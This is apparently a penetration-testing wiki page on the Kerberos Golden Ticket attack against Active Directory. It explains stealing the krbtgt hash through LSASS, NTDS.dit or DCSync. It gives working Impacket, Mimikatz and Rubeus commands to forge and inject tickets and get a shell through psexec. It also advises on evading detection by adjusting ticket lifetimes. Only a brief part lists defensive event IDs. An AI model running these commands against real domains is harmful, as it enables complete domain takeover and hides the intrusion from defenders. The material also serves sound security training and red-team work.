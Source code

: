 # Golden Ticket


## Golden ticket

A **Golden Ticket** attack consist on the **creation of a legitimate Ticket Granting Ticket (TGT) impersonating any user** through the use of the **NTLM hash of the Active Directory (AD) krbtgt account**. This technique is particularly advantageous because it **enables access to any service or machine** within the domain as the impersonated user. It's crucial to remember that the **krbtgt account's credentials are never automatically updated**.

To **acquire the NTLM hash** of the krbtgt account, various methods can be employed. It can be extracted from the **Local Security Authority Subsystem Service (LSASS) process** or the **NT Directory Services (NTDS.dit) file** located on any Domain Controller (DC) within the domain. Furthermore, **executing a DCsync attack** is another strategy to obtain this NTLM hash, which can be performed using tools such as the **lsadump::dcsync module** in Mimikatz or the **secretsdump.py script** by Impacket. It's important to underscore that to undertake these operations, **domain admin privileges or a similar level of access is typically required**.

Although the NTLM hash serves as a viable method for this purpose, it is **strongly recommended** to **forge tickets using the Advanced Encryption Standard (AES) Kerberos keys (AES128 and AES256)** for operational security reasons.


{% code title="From Linux" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="From Windows" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**Once** you have the **golden Ticket injected**, you can access the shared files **(C$)**, and execute services and WMI, so you could use **psexec** or **wmiexec** to obtain a shell (looks like yo can not get a shell via winrm).

### Bypassing common detections

The most frequent ways to detect a golden ticket are by **inspecting Kerberos traffic** on the wire.  By default, Mimikatz **signs the TGT for 10 years**, which will stand out as anomalous in subsequent TGS requests made with it.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

Use the `/startoffset`, `/endin` and `/renewmax` parameters to control the start offset, duration and the maximum renewals (all in minutes).

```
Get-DomainPolicy | select -expand KerberosPolicy
```

Unfortunately, the TGT's lifetime is not logged in 4769's, so you won't find this information in the Windows event logs.  However, what you can correlate is **seeing 4769's without a prior 4768**.  It's **not possible to request a TGS without a TGT**, and if there is no record of a TGT being issued, we can infer that it was forged offline.

In order to **bypass this detection** check the diamond tickets:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### Mitigation

* 4624: Account Logon
* 4672: Admin Logon
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

Other little tricks defenders can do is **alert on 4769's for sensitive users** such as the default domain administrator account.

## References
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets] (https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

